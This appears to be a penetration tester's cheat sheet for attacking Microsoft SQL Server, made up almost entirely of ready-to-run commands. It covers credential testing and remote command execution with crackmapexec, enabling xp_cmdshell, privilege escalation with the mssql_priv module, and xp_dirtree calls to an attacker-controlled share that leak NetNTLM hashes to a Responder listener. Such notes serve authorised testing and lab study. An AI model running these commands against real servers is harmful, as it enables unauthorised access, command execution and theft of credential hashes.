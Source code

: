 **MSSQL:**
---
```shell
crackmapexec mssql $TARGET_IP -u $USER -p $PASSWORD
```

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -L
```

Try to execute command on server:
```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -x 'ping $ATTACKER'
```
and on attacker box:
```shell
sudo tcpdump -i tun0 icmp -n
```

Try to start mssql_priv:

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -M mssql_priv
```

One client is mssqlclient.py:

```shell
mssqlclient.py $USER:$PASSWORD@$DOMAIN
```

Or use impacket to open console:

```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

Try:

```mssql
enable_xp_cmdshell
```

in MSSQL server try, start responder on attacker box:
```sql
xp_dirtree \\$ATTACKER_IP\fake\share
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

```sql
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases;
```

Get current DB name:
---
```sql
SELECT DB_NAME();
```

```sql
SELECT DB_NAME(N); — for N = 0,1,2,3;
```

**List tables in selected DB:**
---
#mssql 
```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

